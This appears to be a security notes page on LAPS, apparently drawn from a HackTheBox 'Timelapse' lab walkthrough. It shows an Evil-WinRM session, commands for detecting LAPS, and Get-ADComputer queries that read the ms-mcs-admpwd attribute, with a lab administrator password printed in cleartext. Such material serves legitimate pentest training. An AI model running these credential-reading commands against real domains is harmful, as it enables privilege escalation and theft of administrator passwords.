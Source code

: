 ```yaml
---
description: >-
  Stands for Local Administrator Password Solution (LAPS). Its used for managing
  unique, complex, and frequently changing administrator passwords for
  domain-joined computers.
---
```


# LAPS

The goal of LAPS is to randomise passwords across the Windows end-points. This is to prevent brute-forcing, hash cracking and lateral movement in the domain joined enviroment. It is common to see groups of users which have permissions to read these passwords.&#x20;

{% embed url="https://www.youtube.com/watch?ab_channel=AzureAcademy&v=ZGCM-jRsboA" %}
How LAPS works
{% endembed %}

### Vulnerability

A LAPS solution can be compromised if the user who joins a computer to an Active Directory domain has sufficient privileges to read the stored LAPS password. In this example we are member of the LAPS\_Readers group.&#x20;

```bash
*Evil-WinRM* PS C:\program files\LAPS\CSE> net user svc_deploy
Enter PEM pass phrase:
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 12:25:53 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Check if LAPS is running

```bash
# Check for AdmPwd.dll
dir "C:\Program Files\LAPS\CSE"

# Register query
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled
```

### Read password

As member of LAPS\_Readers we can use powershell to read the administrator password. Using Get\_ADComputer we filter out 'ms-mcs-admpwd'.

```bash
# Get objects and ms-mcs-admpwd property
Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : V@cAe{m{/pv7!1q7X06Ii)U7
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :  
```

{% hint style="info" %}
The Get-ADcomputer will retrieve computer objects from the AD. Using the -Filter flag we use it to return "computer". The -property \* flag will return all properties of the computer objects.&#x20;
{% endhint %}

```bash
# Get-ADcomputer properties
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *

<snip>
modifyTimeStamp                      : 10/18/2024 3:45:30 PM                                               
ms-Mcs-AdmPwd                        : V@cAe{m{/pv7!1q7X06Ii)U7                                            
ms-Mcs-AdmPwdExpirationTime          : 133741971309039826                                                  
msDFSR-ComputerReferenceBL           : {CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=timelapse,DC=htb}
msDS-GenerationId                    : {69, 127, 93, 82...}  
```

